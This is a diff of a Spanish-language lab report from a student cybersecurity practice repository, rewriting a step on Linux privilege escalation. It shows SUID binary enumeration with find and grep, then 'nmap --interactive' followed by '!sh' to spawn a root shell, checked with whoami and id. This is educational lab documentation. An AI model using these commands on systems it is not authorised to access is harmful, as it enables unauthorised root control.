

Before and after one commit to Jrgil20/PracticasCiberSeguridad, a Markdown page: Practica8/Practica8.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/Practica8/Practica8.md
+++ b/Practica8/Practica8.md
@@ -101,31 +101,21 @@ Luego de la ejecución anterior se ejecutó `cat suid\_binaries.txt` para visual
 
 Se ejecutó el comando `find / -perm -4000 -type f 2>/dev/null | grep -E "nmap|vim|find|bash|more|less|nano|cp"` para poder encontrar los archivos con el bit SUID que cumplan con la expresión regular establecida, esto se logra ya que el operador pip ( | ) permite conectar dos comandos y en este caso se está conectando la primera parte del comando anterior con el comando `grep -E "nmap|vim|find|bash|more|less|nano|cp"` ya que este tiene como fin filtrar la lista formada por la primera parte para que solo se visualicen los comandos que cumplan con la expresión regular `"nmap|vim|find|bash|more|less|nano|cp", la bandera `-E` en el comando grep habilitar el uso de las expresiones regulares extendidas como criterio de filtro y el pipe dentro de la expresion permite concatenar las condiciones haciendo que funcione como un operador lógico OR.
 
-**Paso 2: Explotar nmap (si está con SUID)**
+#### **Paso 2: Explotar nmap (si está con SUID)**
 
-\# Verificar si nmap tiene SUID
+Se ejecutó el comando `ls -la /usr/bin/nmap` para comprobar que nmap contiene el bit de SUID activado para usarse como vector de escalada de privilegios, efectivamente el comando arrojó que el archivo ejecutable de nmap tiene el bit encendido.
 
-ls -la /usr/bin/nmap
+Se ejecuto `nmap --interactive` para ejecutar el programa de nmap en modo interactivo, cabe destacar que al tener el bit SUID encendido el proceso temporalmente los privilegios de su propietario, en este caso root.
 
-\# Versiones antiguas de nmap tienen modo interactivo
+Posteriormente se ejecutó `nmap> !sh` para abrir una shell, una shell es un programa que actúa como una **interfaz de línea de comandos (CLI)** entre el **usuario** y el **núcleo (kernel) del sistema operativo**. Al haberse ejecutado el proceso con los permisos de root, la shell resultante hereda los mismos lo que hace que la escalada de privilegios sea exitos al ahora tener el usuario root en control para ejecutar acciones sobre el objetivo.
 
-nmap --interactive
+Para comprobar que efectivamente ahora se está en el usuario root se ejecutaron los coamndos `whoami` y `id` para verificar el usuario actual y sus diferentes IDs correspondientes a su rol dentro del sistema dando como resultado la escalada exitosa como se puede ver en la imagen de abajo.
 
-nmap> !sh
+![acceso-root](image-3.png)
 
-\# Ahora deberías tener una shell como root
+Por último, se ejecutó `echo "Root via nmap SUID - Equipo 4" > /root/equipo4\_nmap\_root.txt` para escribir dentro u=de un archivo txt ubicado en la carpeta root un mensaje que sirva como prueba irrefutable de que se logró la escalada de privilegios en el sistema.
 
-\# Verificar
-
-whoami  # Debería mostrar: root
-
-id
-
-\# Crear evidencia
-
-echo "Root via nmap SUID - Equipo 4" > /root/equipo4\_nmap\_root.txt
-
-**Paso 3: Explotar otros binarios SUID comunes**
+#### **Paso 3: Explotar otros binarios SUID comunes**
 
 **find con SUID:**
 
```
Also changed, not shown: other parts of Practica8/Practica8.md (+33 -11 lines).
